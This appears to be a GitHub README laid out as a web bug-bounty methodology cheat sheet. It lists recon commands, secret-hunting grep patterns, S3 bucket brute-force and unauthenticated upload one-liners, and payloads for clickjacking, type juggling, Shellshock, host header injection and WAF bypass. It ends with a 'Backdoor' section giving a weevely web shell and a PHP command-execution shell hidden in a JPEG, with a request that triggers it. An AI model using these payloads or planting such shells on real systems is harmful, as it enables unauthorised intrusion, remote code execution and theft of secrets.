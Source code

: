 # Methodology

## Summary
- [Recon](#recon)
  - [Recon searching for](#recon-searching-for)
  - [S3 Buckets](#s3-buckets)
- [ClickJacking](#clickjacking)
- [Type Juggling](#type-juggling)
- [ShellShock Attack](#shellshock-attack)
- [CRLF](#crlf)
- [Google Dorks](#google-dorks)
- [Host Header Attack](#host-header-atttack)
- [Subdomain Takeover](#subdomain-takeover)
- [API Keys](#api-keys)
- [GraphQL](#graphql)
- [WAF Bypass](#waf-bypass)
# Recon
1) Enumerate Domains.
2) Enumerate Subdomains: recon.sh + httpx or Knockpy -w subdomains $domain.com.
3) Enumerate Params: gau, waybackurls, paramspider and dirsearch.
4) Enumerate ports of each subdomain: nmap.
5) API KEYS - cat url.txt | grep "\.js" xargs -I@ sh -c 'python.exe SecretFinder.py -i @ -e -o cli' | tee apiKeys.txt
6) Maltego + FOCA.
7) [Google Dorks](#google-dorks).
8) Frameworks, Languages, PaaS and Servers.
9) Shodan to know cves exposure

## Recon searching for:

### Requests:
1) setRequestHeader
2) XMLHttpRequest
3) $.ajax 
4) $.get 
5) $.post 
6) $.getJSON 
7) fetch( 
8) axios({ 
9) Url = "http

### FIREBASE:
firebaseio.com/.json

### Cookies:
1) set_cookie(
2) base64

## S3 Buckets
* s3.amazonaws.com
* Read: aws s3 ls s3://domain --no-sign-request = Response: An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
* Upload: aws s3 cp poc.html s3://domain --no-sign-request = load to s3://
* Bruteforce: cat subdomains.txt | xargs -I@ sh -c 'aws s3 ls s3://@ --no-sign-request' | grep -v 'An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist'

### API Tokens:
1) pk_live
2) sk_live
3) AIza

### JWT
The Json web tokens cannot be tested in automated ways, so it is more likely to meet some bugs.

### Open Redirect
> Use "Burp Seach"
```http
?redirection=
?redir=
?redireccion=
```

## Clickjacking
> List forms to change password, email and delete account via GET Request + Submit input.
```html
<iframe src="$url?email=hacker@attacker-website.com"></iframe>
```

## Type Juggling
```http
POST https://example.com/login.php HTTP/1.1
Accept: */*
Content-Type: application/json

usuario=admin&password[]=anything
```
Add [] to password

## Shellshock Attack
```http
POST https://example.com/session.cgi HTTP/1.1
Accept: */*
User-Agent: () { :; }; echo "pwned"
```
## CRLF
Always test params with GET Requests: https://github.com/AngelJuanMa/Web-Vulnerabilities/blob/main/Payloads/CRLF.txt

## Google Dorks
```bash
python3.9 pagodo.py -d example.com -g ./dorks/all_google_dorks.txt
cat pagodo.py.log | grep 'Found unique URL #'
```
4.2 days to finish

## Host Header Atttack
```http
POST https://example.com/reset.php HTTP/1.1
Accept: */*
Content-Type: application/json
Host: SUBDOMAIN.burpcollaborator.net
```

## Subdomain Takeover
https://github.com/EdOverflow/can-i-take-over-xyz

## Api keys
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/keyhacks-api.md

## Graphql
InQL extension of burp suite to list endpoints. 

## WAF bypass
```bash
sudo apt install jq
git clone https://github.com/vincentcox/bypass-firewalls-by-DNS-history
cd bypass-firewalls-by-DNS-history/
bash bypass-firewalls-by-DNS-history.sh --help
```
## Backdoor
```bash
weevely generate 12345 404.php
weevely http://domain.com/404.php 12345

jhead -purejpg ns.jpg
jhead -ce ns.jpg
mv ns.jpg ns.php.jpg

Insert:

<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="foto.jpg" border=0>
';}__halt_compiler();?></h1>

:wq
```

```http
http://domain.com/ns.php.jpg?cmd=ls
```
